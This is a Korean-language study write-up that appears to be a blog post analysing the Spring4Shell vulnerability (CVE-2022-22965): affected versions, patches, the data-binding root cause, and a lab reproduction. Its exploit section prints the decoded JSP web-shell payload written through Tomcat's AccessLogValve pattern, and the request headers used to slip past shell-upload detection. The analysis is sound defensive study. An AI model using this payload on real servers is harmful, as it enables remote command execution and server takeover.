









# Spring4Shell

최근 Spring Framework에서 발생한 취약점 CVE-2022-22965를 공부하고 작성한 글입니다. 

LunaSec 블로그에 올라온 분석글을 참고하였으며, 링크는 하단 `🔗참고한 자료`에서 확인할 수 있습니다. 

## 📖Overview

2022년 3월 29일 트위터에 Spring Core에서의 새로운 제로데이 익스플로잇 스크린샷이 공개되었다.

해당 취약점은 CVE-2022-22965는 `Spring4Shell`이라고도 알려져 있으며, 클래스 주입을 통해 RCE로 이어질 수 있다. 

Spring Core가 매우 많이 사용되는 라이브러리라는 점에서 해당 취약점의 파급력이 클 것으로 보인다.

## 📢NVD 정보

> A Spring MVC or Spring WebFlux application running on JDK 9+ may be vulnerable to remote code execution (RCE) via data binding. The specific exploit requires the application to run on Tomcat as a WAR deployment. If the application is deployed as a Spring Boot executable jar, i.e. the default, it is not vulnerable to the exploit. However, the nature of the vulnerability is more general, and there may be other ways to exploit it.

[🔗CVE-2022-22965 NVD link](https://nvd.nist.gov/vuln/detail/CVE-2022-22965 "CVE-2022-22965 NVD")


## 🚫취약 시스템

* Spring MVC and Spring WebFlux applications running on JDK 9+.
* Spring Framework 5.3.0 - 5.3.17, 5.2.0 - 5.2.19과 이전 버전.

<pre>
* 공개된 특정 익스플로잇에 대해서는 다음을 모두 만족하는 경우 취약하다고 할 수 있다.
  (하지만 익스플로잇이 가능한 이외의 시나리오가 있을 수 있음.)
  
1. JDK 9 이상의 버전에서 실행
  (JDK 8에서는 취약하지 않음.)
2. Servlet 컨테이너로 Apache Tomcat을 사용
3. WAR deployment를 통해 Tomcat에서 실행 중인 경우
  (Spring Boot executable jar로 배포된 경우에는 취약하지 않음.)
4. spring-webmvc 또는 spring-webflux 종속성
5. Spring Framework 5.3.0 - 5.3.17, 5.2.0 - 5.2.19과 이전 버전
</pre>

## 🩹취약점 패치

패치된 버전은 다음과 같다.

<pre>
Spring Framework 5.3.18, 5.2.20
Spring Boot 2.6.6, 2.5.12 (Spring Framework 5.3.18 기반) 
</pre>

## 📚분석한 내용

CVE-2022-22965는 요청 파라미터의 값으로 객체를 채울 때 사용되는 데이터 바인딩과 연관이 있다.
데이터 바인딩 과정에서 사용자가 전송한 HTTP 요청 값에 따라 다른 객체로의 접근이 가능하여 발생하는 취약점으로, 이를 악용하면 원격 코드 실행(RCE)으로 이어질 수 있다.

취약점을 분석하기 위해 LunaSec에서 Github에 공개한 취약한 애플리케이션과 PoC를 활용했다. 

### ✍데이터 바인딩

서버에 다음과 같은 클래스가 있다고 할 때, 
```java
public class Greeting {
    private long id;

    public long getId() {
        return id;
    }

    public void setId(long id) {
        this.id = id;
    }
}

@Controller
public class HelloController {
    @PostMapping("/greeting")
    public String greetingSubmit(@ModelAttribute Greeting greeting, Model model) {
        return "hello";
    }
}
```

사용자가 다음과 같이 요청을 보내면 위의 Greeting 클래스에 쿼리 파라미터인 `id=test` 의 데이터가 바인딩되어 Greeting 객체의 `id` 값이 `test`로 세팅된다.

```bash
curl 'http://localhost:8080/greeting?id=test'
```

이 때, 위와 같은 일반적인 파라미터 값뿐만 아니라 객체 속성에 대해서도 파라미터로 전달된 값을 바인딩할 수 있다. 
이처럼 객체 속성에 파라미터 값을 바인딩하기 위해서는 런타임에 객체에 접근할 수 있어야 한다.

객체 지향 언어에서 런타임에 클래스 혹은 객체의 정보를 가져오거나 사용도록 허용해주는 것이 Introspection이라고 하는데,
Introspection은 Introspector 클래스의 다음 두 개의 메소드를 이용하여 수행된다.

```java
BeanInfo getBeanInfo(Class beanClass)
BeanInfo getBeanInfo(Class beanClass, Class stopClass)
```
특히, Spring Framework에서는 위의 두 메소드 중 `getBeanInfo(Class beanClass)`를 사용하며, 
이 메소드를 호출해 매개 변수 `beanClass`로 전달된 객체에 대한 정보를 가져온다.

이 때, `getBeanInfo(Class beanClass)`의 경우 `stopClass`에 해당하는 인자가 없기 때문에 전체 상속 트리를 모두 순회하여 `beanClass`에 지정된 객체 정보를 가져올 수 있다.
즉, 사용자가 HTTP 요청 파라미터에 임의의 객체 속성값을 지정하여 전송하면 해당 객체의 속성값이 변경될 수 있다.

### ✍취약점과 관련된 코드 확인

이를 Github에 공개된 Spring Framework 코드에서 확인해볼 수 있다.

  

요청 매개변수 값을 객체에 바인딩할 때, `org.springframework.beans.BeanWrapperImpl`의 `getCachedIntrospectionResults` 메소드를 호출하여 캐시에 객체의 속성을 저장한다. 

  

`getCachedIntrospectionResults`메소드는 `org.springframework.beans.CachedIntrospectionResults` 클래스의 `forClass` 메소드를 호출한다.

 

`org.springframework.beans.CachedIntrospectionResults`를 확인하면 `forClass` 메소드에서 아래처럼 `CachedIntrospectionResults` 생성자를 호출한다.

 

`org.springframework.beans.CachedIntrospectionResults`의 생성자 코드 일부를 보면 아래와 같다. 277라인을 보면 위에서 언급한 `getBeanInfo` 메소드를 호출하는 것을 확인할 수 있다.

 

패치 전후를 확인하면 패치 전에는 객체 속성에 `classLoader` 혹은 `protectDomain` 문자열이 포함된 경우 필터링하여 제한할 수 있었다.
이는 `CVE-2022-22965` 와 유사한 취약점 `CVE-2010-1622`와 연관이 있다. `CVE-2010-1622` 의 경우 `class.classLoader.URLs[0]={임의의 URL}` 형태의 조작된 요청 매개 변수를 포함한 요청을 전송해 취약점을 발생시킬 수 있었다.
따라서 패치 전의 필터링으로 이러한 문자열은 필터링 할 수 있었다.

하지만 JDK 9부터 `ClassLoader` 객체에 접근할 수 있는 `Moduel` 객체가 등장하였고, `class.module.classloader`를 활용해 기존 필터링을 우회해 공격이 가능해졌다.

따라서 패치 후에 해당하는 초록색 부분을 확인하면 객체 속성에 대한 필터링이 강화된 것을 볼 수 있다.

### ✍Exploit

LunaSec이 공개한 취약한 애플리케이션 도커 파일과 PoC를 활용해 Exploit을 재현하였다.

 

 

PoC를 실행하면 Wireshark를 통해 위와 같은 공격 패킷을 확인할 수 있다.

 

PoC를 실행한 후, 취약한 서버에는 웹쉘이 생성되고 위와 같이 웹쉘에 접근하고, 실행할 수 있다.

특히 첫 번째 공격 패킷에서 `org.apache.catalina.valves.AccessLogValve` 객체의 속성값을 설정하는데, 이 객체는 tomcat 로그에 관한 것이다. 
`org.apache.catalina.valves.AccessLogValve`관해 찾아보니 `class.module.classLoader.resources.context.parent.pipeline.first.pattern`이 tomcat 로그의 형식을 지정하기 위한 속성임을 알 수 있었다. 

특히, PoC에서 사용한 `class.module.classLoader.resources.context.parent.pipeline.first.pattern`값의 URL인코딩된 부분을 디코딩한 후에 확인해보면 아래와 같다.

```java
%{prefix}i java.io.InputStream in = %{c}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %{suffix}i
```

여기서 `%{prefix}i`, `%{c}i`, `%{suffix}i` 와 같은 값이 나오는데, 이는 요청 및 응답값을 형식에 맞게 로깅하기 위해 사용하는 표현 중 하나이다. tomcat document에 의하면 `%{xxx}i`는 요청 헤더 `xxx`의 값으로 치환하여 로그에 남는다.

> %{xxx}i write value of incoming header with name xxx (escaped if required)

즉, 두 번째 공격 패킷(아래와 같음)에서 HTTP 요청에서 `prefix`, `suffix`, `c` 에 해당하는 값이 pattern에 `%{prefix}i`, `%{c}i`, `%{suffix}i` 부분에 치환되어 `shell.jsp` 파일에 쓰여진다. 이는 공격자가 `<%`, `%>`, `Runtime`과 같은 문자열에 대한 탐지(쉘 코드 업로드 등의 공격 탐지)를 우회하기 위해 사용한 것으로 생각할 수 있을 것 같다.

```
GET /helloworld/greeting HTTP/1.1
Host: localhost:8080
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
prefix: <%
suffix: %>//
c: Runtime
```

또한, Github에 공개된 jsp 코드를 활용해 런타임에 속성 목록을 확인할 수 있었다. 아래 이미지는 확인한 속성 목록 페이지를 캡처한 것이며, 관련 코드는 `🔗참고한 자료 [8]번`에서 확인할 수 있다.

 

또한 위의 jsp 코드를 활용해 Exploit 전후의 `org.apache.catalina.valves.AccessLogValve` 속성 값을 확인해보았다.

 

기존에는 `conf/server.xml`에 설정된 값과 속성값이 동일했다.

 

공격 이후에는 PoC에 사용된 HTTP 요청 파라미터 값과 동일하게 변경되었음을 확인할 수 있다.

## 🔗참고한 자료
[1] https://nvd.nist.gov/vuln/detail/CVE-2022-22965 (NVD)  
[2] https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement (취약점과 관련된 Spring 공지사항)  
[3] https://github.com/spring-projects/spring-framework/commit/002546b3e4b8d791ea6acccb81eb3168f51abb15 (Patch Diff)  
[4] https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/ (LunaSec 블로그 분석글)  
[5] https://github.com/lunasec-io/Spring4Shell-POC (LunaSec Spring4Shell PoC Github)  
[6] http://blog.o0o.nu/2010/06/cve-2010-1622.html (CV#-2010-1622)  
[7] https://github.com/WeiJiLab/Spring4Shell-POC/blob/master/src/main/webapps/print.jsp (속성 목록을 출력하는 코드)  
[8] https://unit42.paloaltonetworks.com/cve-2022-22965-springshell/ (참고한 분석글)  
[9] https://www.trendmicro.com/en_no/research/22/d/cve-2022-22965-analyzing-the-exploitation-of-spring4shell-vulner.html (참고한 분석글)  
[10] https://docs.oracle.com/javase/9/docs/api/java/beans/Introspector.html  
[11] https://docs.oracle.com/javase/9/docs/api/java/beans/PropertyDescriptor.html  
[12] https://tomcat.apache.org/tomcat-9.0-doc/api/org/apache/catalina/valves/AccessLogValve.html  
[13] https://tomcat.apache.org/tomcat-9.0-doc/config/valve.html  
